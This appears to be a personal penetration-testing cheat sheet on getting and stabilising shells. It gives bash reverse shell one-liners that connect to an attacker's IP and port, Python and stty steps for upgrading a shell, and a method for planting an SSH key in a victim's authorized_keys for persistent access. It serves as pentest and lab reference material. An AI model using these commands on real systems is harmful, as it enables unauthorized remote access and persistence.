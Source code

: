 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

Often, you can simply run `/bin/bash` or equivalent to launch a better shell.

Use `echo "$SHELL"` to determine the shell you're using. Then specify the full path to that shell and it will sometimes spawn you a better, more interactive shell.

```bash
┌──(mac㉿kali)-[~]
└─$ echo "$SHELL"
/bin/bash
┌──(mac㉿kali)-[~]
└─$ /bin/bash
```

### Using Python to spawn /bin/bash

```bash
which bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Backgrounding Shell Trick

Within your shell, possibly after spawning a `/bin/bash` process with python, do the following to fix the interactivity in your shell:

- Press `Ctrl + z` to background the process
- Execute the command `stty raw -echo` on your host machine
- Type `fg` on your host (you will not see this on screen)
- Press the `Enter` key twice

You should now have an interactive shell!

If your line wrapping seems off, you may need to recalibrate the columns and rows in your new shell. Do the following:

- Execute `stty -a` on your host machine and make a note of the rows and columns number
- In your new shell, execute `stty rows Y cols X` where Y is your number of rows and X is your number of columns

*Note:* This does not work in meterpreter or metasploit shells in general.

### Use your shell to write an SSH key

This is one of the most reliable ways of getting an interactive shell - if you have permissions to pull it off.

First, generate a key pair to use to access the box (do this on your host machine):

```bash
$ ssh-keygen -f key_name
```

Then read the public key and copy it to your clipboard:

```bash
$ cat key_name.pub
```

On the victim box, find the user you would like to remotely access - in this example, `victim`:

```bash
$ echo 'CONTENTS_OF_KEY' >> /home/victim/.ssh/authorized_keys
```

Then ssh in from your host:

```bash
ssh -i key_name victim@IP_ADDRESS
```

### Girsh

[Repo link](https://github.com/nodauf/Girsh)